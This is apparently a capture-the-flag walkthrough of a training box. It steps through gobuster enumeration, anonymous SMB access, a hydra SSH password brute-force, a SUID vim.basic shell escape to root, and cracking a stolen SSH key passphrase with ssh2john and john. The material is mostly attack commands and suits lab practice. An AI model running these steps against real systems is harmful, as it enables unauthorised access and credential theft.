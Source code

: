 ***

Author: dxWiz

Date: 19 Mar 2022

***

# Task 1 Web App Testing and Privilege Escalation

Use the following command to enumerate the url for hidden directory

	gobuster dir -u $IP -w /usr/share/wordlist/dirbuster/diretory-list-2.3-medium.txt

and we found /development/ and two files dev.txt and j.txt, checkout both of the files.

From out initial nmap scan, we know that smb is present in the target, to list the available share, use the following command

	smbclient -L //$IP

then the next steps is to try connecting to the shared folder with the name of Anonymous

	smbclient //$IP/Anonymous -N

After that do and ***ls*** and ***get*** to download the file staff.txt. In the file there is a staff named Jan.

We will then use hydra to brute force jan password with the following command
	
	hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://$IP

It is time to ssh into the target with the password obtained and we can start looking for any misconfigured SUID file with the following command

	find / -type f -perm -u=s 2>/dev/null

	/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
	/usr/lib/policykit-1/polkit-agent-helper-1
	/usr/lib/eject/dmcrypt-get-device
	/usr/lib/snapd/snap-confine
	/usr/lib/openssh/ssh-keysign
	/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/usr/bin/vim.basic
	/usr/bin/pkexec
	/usr/bin/newgrp
	/usr/bin/chfn
	/usr/bin/sudo
	/usr/bin/chsh
	/usr/bin/newgidmap
	/usr/bin/at
	/usr/bin/gpasswd
	/usr/bin/newuidmap
	/usr/bin/passwd
	/bin/su
	/bin/ntfs-3g
	/bin/ping6
	/bin/umount
	/bin/fusermount
	/bin/mount
	/bin/ping


vim.basic looks interesting and by referencing to [GTFObins](https://gtfobins.github.io/) we can do a PE with the following command

	/usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")' 


With the root access we can then go to kay home directory and read the pass.bak file to get the answer for the last question.

******

There is another way to gain root access without exploiting the misconfigured SUID file which is to get kay's ssh private key from her folder /home/kay/.ssh

We should do this before using the private key

	chmod 600 kay_id_rsa  

When we try to ssh with the following command 

	ssh -i kay_id_rsa kay@10.10.19.202
	Enter passphrase for key 'kay_id_rsa': 

It is asking for a passphrase, let's brute force the passphrase by first doing ssh2joh

	ssh2john kay_id_rsa > ssh2john.txt


It's time to brute force the passphrase of the key with john

	john --wordlist=/usr/share/wordlists/rockyou.txt ssh2john.txt
	
 and then ssh to the target and read the pass.bak file for answer.	

